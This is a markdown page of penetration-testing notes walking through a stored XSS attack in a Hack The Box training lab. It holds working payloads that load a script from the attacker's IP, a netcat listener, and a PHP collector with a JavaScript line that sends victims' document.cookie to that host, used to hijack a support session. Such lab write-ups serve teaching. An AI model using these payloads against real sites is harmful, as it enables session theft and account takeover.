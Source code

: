 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;
{% endhint %}

We have found a **ticket form** on `support.local.htb` (Figure 1).

<div align="left">

<figure><img src="../../.gitbook/assets/xss_ticket_form.png" alt="" width="375"><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).

{% tabs %}
{% tab title="1. Payload" %}
```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```
{% endtab %}

{% tab title="2. Listener" %}
```bash
nc -lvnp 1337
```
{% endtab %}
{% endtabs %}

<div align="left">

<figure><img src="../../.gitbook/assets/xss_test.png" alt="" width="554"><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

</div>

Next, we will **steal the cookie** of the person who will process our ticket (Figure 3) by:

1. Creating a script (`index.php`) that will expand the stolen cookie.
2. Creating another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Passing a payload that will request `script.js`.

{% tabs %}
{% tab title="index.php" %}
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```
{% endtab %}

{% tab title="script.js" %}
```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```
{% endtab %}

{% tab title="Python HTTP Server" %}
```bash
python3 -m http.server 80
```
{% endtab %}

{% tab title="Payload" %}
```javascript
"><script src=http://10.10.15.131/script.js></script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/xss_cookie.png" alt=""><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>

Adding a new session cookie (Figure 4) and refreshing the page, gives us elevated access (Figure 5).

<div align="left">

<figure><img src="../../.gitbook/assets/xss_creating_cookie.png" alt="" width="453"><figcaption><p>Figure 4: Creating a new session cookie.</p></figcaption></figure>

</div>

<div align="left">

<figure><img src="../../.gitbook/assets/xss_dashboard_access.png" alt="" width="563"><figcaption><p>Figure 5: Refreshing the page gives us dashboard access.</p></figcaption></figure>

</div>
